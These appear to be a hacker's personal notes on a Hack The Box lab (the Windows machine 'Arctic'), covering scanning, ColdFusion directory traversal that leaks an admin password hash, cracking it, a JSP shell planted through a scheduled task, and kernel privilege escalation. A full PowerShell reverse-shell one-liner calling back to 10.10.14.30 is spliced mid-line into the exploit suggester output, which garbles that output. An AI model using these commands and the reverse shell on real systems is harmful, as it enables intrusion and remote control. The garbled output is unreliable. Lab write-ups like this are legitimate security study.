# Enumerate

# Scan

* Full finds 125,8500,49154

```
pat@kali:~/Desktop/Cert_Prep/htb/Windows/Arctic$ scan 10.10.10.11
==================================
Found ports: 135,8500,49154
==================================
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-13 06:55 EDT
Nmap scan report for 10.10.10.11
Host is up (0.029s latency).

PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 146.75 seconds
```

## Explore Services

* No idea what fmtp is
* Use nmap msrpc scripts, the msrpc-enum didn't do anything. 
* Looked up some impacket interaction tools on https://www.hackingarticles.in/impacket-guide-smb-msrpc/
  * Didn't get anything other than some rpcss.dll versions? Can't be remotely exploited? 
* Trying to connect to the rpc or get info just times out everywhere. 
* Google and see that 8500 might be a web server. Even though I tried to curl it earlier and it timed out because everything is terrible. 

### Webpage

* Site is open directory contents. 
* wget recurse on the entire webpage to punish it for not responding to my curl earlier. Jokes on me because this would take three days probably. 
* Maybe some exploits for coldfusion depending on version. Some docs in the directories say version 8. Tried the 8.0.1 file upload and didn't work. 
  * Would be nice to try and port that to python since it doesn't seem to be anywhere online. 
* Tried a version 9 auth bypass that also didn't work. Tried a directory traversal script, didn't work. 
* Use an nse script to test for some stuff. Didn't find anything. 
* Website is so slow I can't even run dirbuster. 
* 14641.py works for directory traversal 

```
pat@kali:~/Desktop/Cert_Prep/htb/Windows/Arctic$ python 14641.py 10.10.10.11 8500 ./../../../../../../lib/password.properties
------------------------------
trying /CFIDE/wizards/common/_logintowizard.cfm
title from server in /CFIDE/wizards/common/_logintowizard.cfm:
------------------------------
#Wed Mar 22 20:53:51 EET 2017
rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP  \n
password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
encrypted=true
```

# Access

* Crack password with John. 'happyday'
* Tried that on rpc again, no luck. 
* Log on to admin page. Took several minutes to even show the sidebar...
* Can create a new scheduled task. Need something that the server will run. Can't use bash anywhere because it's a windows machine so the pentestmonkey java shell won't work. Probably won't have nc or others. Need something running server side. PHP might work? JSP does. 
  * The task downloads and creats the file, then I can run it from the directory listing to get the shell. 
* Have tolis flag. 

# Escalate

* Ran systeminfo and exploit suggester

```
pat@kali:~/Desktop/Cert_Prep/htb/Windows/Arctic$ ./windows-exploit-suggester.py -i systeminfo.txt -d 2020-06-13-mssb.xls 
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (utf-8)
[*] querying database file for potential vulnerabilities
[*] comparing the 0 hotfix(es) against the 197 potential bulletins(s) with a database of 137 known exploits
[*] there are now 197 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2008 R2 64-bit'
[*] 
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
[*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC
[*] 
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (98$client = New-Object System.Net.Sockets.TCPClient("10.10.14.30",1235);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()1957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[*] done
```

* For some reason the chimichurri thing that other people recommend doesn't work for me? I can't seem to run anything even. Uploaded a new reverse shell that isn't shitty and that doesn't run. Uploaded both various ways and nothing seems to help. The only thing I didn't try is remaking my JSP and redoing that part of getting a shell? Maybe mine's fucked or something? Or restarting the box. 
* Switched to a meterpreter shell, none of the metasploit suggestions work. 
* Oh my god...

```
pat@kali:~/Desktop/Cert_Prep/htb/Windows/Arctic$ file Chimichurri.exe 
Chimichurri.exe: HTML document, UTF-8 Unicode text, with very long lines
```

* Well did my best impression of a moderately competent child and downloaded the actual file. That solved the problem. 

# Lessons

* trying to find dirs in an app? Maybe there's a custom wordlist for it. 
* the exploit suggester returns different results after migrating to a 64 bit version of meterpreter. 

